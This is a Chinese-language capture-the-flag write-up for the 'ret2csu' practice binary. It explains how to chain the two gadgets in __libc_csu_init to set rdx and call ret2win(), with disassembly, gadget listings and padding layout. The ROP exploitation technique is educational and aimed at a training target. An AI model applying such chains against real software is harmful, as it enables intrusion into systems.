 > 1. The challenge is simple: call the ret2win() function
> 2. The third argument (rdx) must be 0xdeadcafebabebeef
> 3. There's no gadget such as `pop rdx`

<br>

## Reverse
根据题意，呼叫 ret2win()，并且第三个参数为 0xdeadcafebabebeef 即可。

<br>

## ROP Gadgets
用 ROPgadget 看一下，没有可用的 gadgets。
```
> ROPgadget --binary ret2csu | grep rdx
0x0000000000400567 : lea ecx, [rdx] ; and byte ptr [rax], al ; test rax, rax ; je 0x40057b ; call rax
0x000000000040056d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
```

<br>

## Return-to-csu
Video: [BlackHat Asia 2018 - return-to-csu: A New Method to Bypass 64-bit Linux ASLR](https://www.youtube.com/watch?v=mPbHroMVepM)

<br>

在 __libc_csu_init() 里面，我们可以找到两个很有用的 gadgets。
```
pwndbg> disas __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:     push   r15
   0x0000000000400842 <+2>:     push   r14
   0x0000000000400844 <+4>:     mov    r15,rdx
   0x0000000000400847 <+7>:     push   r13
   0x0000000000400849 <+9>:     push   r12
   0x000000000040084b <+11>:    lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:    push   rbp
   0x0000000000400853 <+19>:    lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:    push   rbx
   0x000000000040085b <+27>:    mov    r13d,edi
   0x000000000040085e <+30>:    mov    r14,rsi
   0x0000000000400861 <+33>:    sub    rbp,r12
   0x0000000000400864 <+36>:    sub    rsp,0x8
   0x0000000000400868 <+40>:    sar    rbp,0x3
   0x000000000040086c <+44>:    call   0x400560 <_init>
   0x0000000000400871 <+49>:    test   rbp,rbp
   0x0000000000400874 <+52>:    je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:    xor    ebx,ebx
   0x0000000000400878 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
End of assembler dump.
```

gadget1：
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
```

gadget2：
```
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

通过 gadget2 和 gadget1，我们可以控制 edi, rsi, rdx，也就是前三个参数。

至于 `r12 + rbx*8` 我们可以试着拼凑出一个指向 plt 或 got 中某条 entry 的 address。

<br>

## Pwn
但这题有个很坑的地方：在 GOT/PLT 中我们无法找到 ret2win() 的 entry，但是透过以下方法可以找到：
```
pwndbg> info address ret2win
Symbol "ret2win" is at 0x4007b1 in a file compiled without debugging.
```

我们只要想办法在内存某处，塞入这个 address 然后让 r12 + rbx*8 指向 address 所在的那个 qword 即可。

但是如果是在 stack 上，这肯定是不可行的，因为 ASLR = 1、2 时 stack 的位址是随机化的。

但这题有个很奇怪的点，不知道为什么 fgets() 输入的东西，居然会被映射在 heap 上某处！？？？

然后因为 PIE 没开启，只要 ASLR = 0 或 1，这题就可以轻松解决！

但这里不说这个，有兴趣自己试试看，我们说说比较可靠的解法。

<br>

到 *__libc_csu_init+73 的时候，会呼叫 [r12+rbx*8] 这个位址的 function，我们必须：
1. 不要 segfault
2. 不要动到 rdx
```
   0x0000000000400880 <+64>:    mov    rdx,r15
   0x0000000000400883 <+67>:    mov    rsi,r14
   0x0000000000400886 <+70>:    mov    edi,r13d
   0x0000000000400889 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:    add    rbx,0x1
   0x0000000000400891 <+81>:    cmp    rbp,rbx
   0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:    add    rsp,0x8
   0x000000000040089a <+90>:    pop    rbx
   0x000000000040089b <+91>:    pop    rbp
   0x000000000040089c <+92>:    pop    r12
   0x000000000040089e <+94>:    pop    r13
   0x00000000004008a0 <+96>:    pop    r14
   0x00000000004008a2 <+98>:    pop    r15
   0x00000000004008a4 <+100>:   ret
```

有个很好的对象可以呼叫，看看 _fini()：
```
pwndbg> disas _fini
Dump of assembler code for function _fini:
   0x00000000004008b4 <+0>:     sub    rsp,0x8
   0x00000000004008b8 <+4>:     add    rsp,0x8
   0x00000000004008bc <+8>:     ret
End of assembler dump.
```

在 .dynamic (dynamic section) 里记录了 _fini() 的真实位址：
```
pwndbg> x/10gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x0000000000400560
0x600e40:       0x000000000000000d      0x00000000004008b4 <--- _fini
（省略若干行）
```

所以我们只要让 r12+rbx*8 等于 0x600e48， 那么 qword ptr [r12+rbx*8] 就会等于 0x00000000004008b4。

但必须注意，在 call qword ptr [r12+rbx*8] 之后：
```
0x000000000040088d <+77>:    add    rbx,0x1
0x0000000000400891 <+81>:    cmp    rbp,rbx
0x0000000000400894 <+84>:    jne    0x400880 <__libc_csu_init+64>
```

我们可以让 rbx = 0，rbp = 1，这样 rbx += 1 之后就会和 rbp 相等，就不会 jne 0x400880。

接着就会继续执行后面几行：
```
0x0000000000400896 <+86>:    add    rsp,0x8
0x000000000040089a <+90>:    pop    rbx
0x000000000040089b <+91>:    pop    rbp
0x000000000040089c <+92>:    pop    r12
0x000000000040089e <+94>:    pop    r13
0x00000000004008a0 <+96>:    pop    r14
0x00000000004008a2 <+98>:    pop    r15
0x00000000004008a4 <+100>:   ret
```

要注意在 pop rbx 到 ret 之前，还有个 add rsp, 0x8！

所以这边开始需要 `7 * 'AAAAAAAA' + ret2win` 而不是 `6 * 'AAAAAAAA' + ret2win` (多垫一组 padding)
